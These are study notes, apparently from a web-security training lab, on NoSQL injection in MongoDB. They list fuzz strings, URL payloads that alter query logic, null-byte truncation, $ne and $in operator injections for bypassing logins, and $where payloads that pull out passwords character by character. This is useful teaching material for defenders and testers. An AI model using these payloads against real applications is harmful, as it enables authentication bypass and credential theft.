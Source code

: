 -  NoSQL syntax injection - break nosql syntax and execute query 
-  Operator injection - abuse nosql operatoors like $where
  


## NoSQL syntax injection

- like sql injection in queries `break the query syntax` and exploit

#### Detecting syntax injection in MongoDB


- test each input by submitting fuzz strings and special characters

#### FUZZ STRINGS

```
'"`{ ;$Foo} $Foo \xYZ '%00
```

```
' " \ ; { } ( )
```


#### TESTING

https://insecure-website.com/product/lookup?category=fizzy

in sever the query is handled as 

``this.category == 'fizzy'``

- we handle fizzy as input 

- now fuzz the input with the *FUZZ STRINGS*

- check the response and analyse

- determine which character is processed like single quote or double quote

``this.category == '''``

`this.category == '\''`

- now we check for boolean influence (eg to bypass or data retrieval)


- for false output expectation
`https://insecure-website.com/product/lookup?category=fizzy'+&&+0+&&+'x`
- here no categories are displayed since query is false ,

- for true 
`https://insecure-website.com/product/lookup?category=fizzy'+&&+1+&&+'x`
- suggests that the false condition impacts the query logic
- here the category fizzy displayed so ==boolean influence==


#### Overriding existing conditions

- use or `||` operator like output always returns true

`https://insecure-website.com/product/lookup?category=fizzy'||'1'=='1`

- here the server query seems ,

`this.category == 'fizzy'||'1'=='1'`

- thus existing condition overrides and displays all categories


- ==MongoDB may ignore all characters after a null character==

- if server query is 

``this.category == 'fizzy' && this.released == 1``

after null character injection in fizzy as input


`this.category == 'fizzy'\u0000' && this.released == 1`

this would display unreleased object



## operator injection


- operator provide ways to specify conditions to fetch data from db 

- $where, $ne , $in , $regex https://chatgpt.com/share/67641e0a-8aec-800a-8b66-c2ec7950455c


### Injecting into query operators

1) if the server query is
`{"username":"wiener"}
- this queries with the user name = wiener , if data returned from server it returns in response

here we can control wiener input

`{"username":{"$ne":"invalid"}}` ==> `username != invalid `which is true
- this queries the username != invalid which queries every username except invalue


2) `username=wiener` becomes `username[$ne]=invalid`


3) `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`
- this queries data if  username `["admin","administrator","superadmin"]` in db

doesn't work

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.


### Exfiltrating data in MongoDB

`https://insecure-website.com/user/lookup?username=admin`

the resprctive query is `{"$where":"this.username == 'admin'"}`

- `admin' && this.password[0] == 'a' || 'a'=='b` this check fot the password first char is a
  
  - `admin' && this.password.match(/\d/) || 'a'=='b` this checks for the password contains digits , change regex to check for others

- `administrator' && this.password.length < 30 || 'a'=='b` used to find length (use binary search technique)










